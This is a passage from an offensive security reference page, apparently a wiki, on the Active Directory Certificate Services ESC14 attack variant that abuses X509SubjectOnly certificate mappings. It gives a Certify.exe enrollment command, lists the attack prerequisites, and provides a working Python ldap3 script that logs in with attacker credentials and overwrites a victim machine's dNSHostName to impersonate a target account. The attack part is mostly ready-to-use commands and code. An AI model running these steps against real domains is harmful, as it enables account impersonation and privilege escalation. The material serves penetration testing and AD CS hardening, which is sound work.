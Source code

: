 ```powershell
Certify.exe request /ca:domain\ca /template:$TEMPLATE
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

:::


#### (ESC14 D) Target with X509SubjectOnly

The target has an explicit weak mapping of type `X509SubjectOnly`. The attacker can modify the `cn` or `dNSHostName` attribute of the victim to match the subject of the `X509SubjectOnly` mapping of the target. It is then possible to enroll on the certificate template with the victim, and use the resulting certificate to authenticate as the target.

For this attack, _some_ additional prerequisites are necessary:

> [!WARNING]
> * The target already has at least one `X509SubjectOnly` mapping in `altSecurityIdentities`
> * If the victim is a user:
 > * The attacker can modify the `cn` and `name` attributes of the victim (to change the `cn`, the `name` must match)
 > * If the target is a user and the `X509SubjectOnly` mapping has the current value of the `cn` attribute of the target as its identifier, the victim and the target cannot be in the same container (the DC will not allow the `cn` of the victim to be set according to the `cn` of the target if they are in the same container, as this would mean that they have the same `distinguishedName`)
> * If the victim is a machine: the attacker has write access to the `dNSHostName` attribute
> * The certificate template indicates `CT_FLAG_NO_SECURITY_EXTENSION` in `msPKI-Enrollment-Flag`
> * The template has one of the following flags in `msPKI-Certificate-Name-Flag`: `CT_FLAG_SUBJECT_REQUIRE_COMMON_NAME` or `CT_FLAG_SUBJECT_REQUIRE_DNS_AS_CN`
> * The certificate does not have any of the following flags: `CT_FLAG_SUBJECT_REQUIRE_DIRECTORY_PATH` and `CT_FLAG_SUBJECT_REQUIRE_EMAIL`
> * For PKINIT, `StrongCertificateBindingEnforcement` is set to `0` or `1`
> * For Schannel, `CertificateMappingMethods` indicates `0x8` and `StrongCertificateBindingEnforcement` is set to `0` or `1`

In this example, the target has the explicit mapping value `X509:<S>CN=TARGET`. One must change the `dNSHostName` of the victim (in this case a computer) to equal `$TARGET`.

::: tabs

=== UNIX-like

From UNIX-like systems, the `dNSHostName` attribute of the victim can be overwritten with the following python script to be equal to `<TARGET>`.

```python
import ldap3

server = ldap3.Server('<DC_HOST>')
victim_dn = "CN=<VICTIM>,CN=Computers,DC=domain,DC=local"
attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
attacker_password = "<ATTACKER_PASSWORD>"

conn = ldap3.Connection(
    server=server,
    user=attacker_username,
    password=attacker_password,
    authentication=ldap3.NTLM
)
conn.bind()

conn.modify(
    victim_dn,
    {'dNSHostName':[(ldap3.MODIFY_REPLACE, '<TARGET>')]}
)

```